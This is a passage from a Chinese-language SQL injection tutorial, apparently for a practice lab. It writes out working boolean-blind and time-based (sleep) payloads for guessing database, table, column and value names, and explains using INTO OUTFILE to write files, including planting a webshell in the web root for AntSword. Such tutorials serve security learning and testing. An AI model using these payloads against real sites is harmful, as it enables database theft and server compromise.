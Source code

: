 &emsp;&emsp;猜库名，可引入二分法。

###### ?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit M,1),N,1))=101

&emsp;&emsp;猜表名，可引入二分法。

###### ?id=1' and 1=(select 1 from information_schema.columns where table_schema='xxx' and table_name regexp 'xxx' limit N,1)--+

&emsp;&emsp;猜表名，正则匹配法。

###### ?id=1' and ord(mid((select ifnull(cast(username as char),0x20) from security.users order by id limit N,1),N,1))=68--+

&emsp;&emsp;猜值。

##### <<延时注入

&emsp;&emsp;利用 sleep()、benchmark() 等函数让 MySQL 的执行时间变长，多与 if(expr1,expr2,expr3) 结合使用。

&emsp;&emsp;将 expr2 设置为 sleep() 等函数，如果 expr1 为 true，则浏览器转 sleep() 里的秒数后再回显，否则直接回显。所用到的猜解语句同布尔注入类似，不多演示，仅展示一例：

- `?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+` ：猜库名。

&emsp;&emsp;注意：首先是要通过一样的原理猜闭合方式。

##### <<导出文件

###### 前置知识

- MySQL `SELECT ... INTO OUTFILE "file"` ，将结果写入文件：

  - 该文件不能事先就存在
  - 数据库用户拥有 FILE 权限
  - 文件路径要与 secure_file_priv 的设置不冲突

- MySQL 默认不能导入和导出文件，这与 secure_file_priv 的值有关（默认为null)。secure_file_priv 参数是用来限制 LOAD DATA、SELECT … INTO OUTFILE、LOAD_FILE() 的文件到哪个指定目录的。

  - 当 secure_file_priv 的值为 null ，表示不允许导入、导出
  - 当 secure_file_priv 的值为如 /tmp/ ，表示导入、导出只能发生在 /tmp/ 目录下
  - 当 secure_file_priv 的值为空，表示不对导入、导出做限制

  使用 `show variables like 'secure_file_priv'` 命令查看其设置。

###### 操作

- 获取 secure_file_priv 的值。
- 如果 secure_file_priv 设置为空，则可以写入到网址根目录的文件里，从而通过 url 访问来查看写入内容或写入木马连接蚁剑。否则，只能按照 secure_file_priv 的设置写文件，并在其指定目录下查看。
- 获取字段数：`?id=1')) order by 3--+`
- 依次获取库名、表名、列名、值，类似普通注入，只是改成 `SELECT ... INTO OUTFILE "file"` 而已。 

##### <<二次注入
